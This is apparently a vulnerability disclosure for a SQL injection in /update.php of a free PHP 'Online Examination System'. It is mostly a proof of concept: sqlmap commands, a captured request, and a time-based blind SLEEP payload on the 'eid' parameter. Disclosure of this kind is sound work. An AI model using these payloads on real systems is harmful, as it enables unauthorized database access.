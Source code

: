 # SQLi vulnerability in Online Examination System v1.0 of file /update.php

**vender**:

- Online Examination System

**SoftLink**:

- https://projectworlds.in/free-projects/php-projects/online-examination/

**Vulnerable File**

- /update.php

**Version**

- V1.0

### POC

```bash
sqlmap -r request.txt --level 5 --batch
```



```http
GET /online-examination-systen/update.php?q=quizre&step=25&eid=1 HTTP/1.1
Host: 192.168.129.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: PHPSESSID=v43kk28qqva4ntobshvd2bhfm7; G55gnuboard5PHPSESSID=nm79ejnaiinb8lddnkihea90q4; 2a0d2363701f23f8a75028924a3af643=MTkyLjE2OC4xMjkuMQ%3D%3D; 2e61f26e7a4e8194d3d5d054536403e0=MTZhMzRlM2E0ZGM2YWZjMWIwZGQxMmUxYjg4MGRjOGU%3D; 6e1280981e1dfd9169c5dea9c28ff2e3=YWRtaW4%3D; a3e94372a6379bc1ae3698dfdf38595b=ZDA1MWM3MTM1ZDZhMDc0YjJjOWExYjNmNmM4YTM3MTA%3D
Upgrade-Insecure-Requests: 1
Priority: u=0, i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
```



```bash
sqlmap -r request.txt --level 5 --random-agent 
```



```
---
Parameter: eid (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: q=quizre&step=25&eid=1' AND (SELECT 7803 FROM (SELECT(SLEEP(5)))vvPI)-- aGgZ
---
```

![image.png](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505310414826.png)

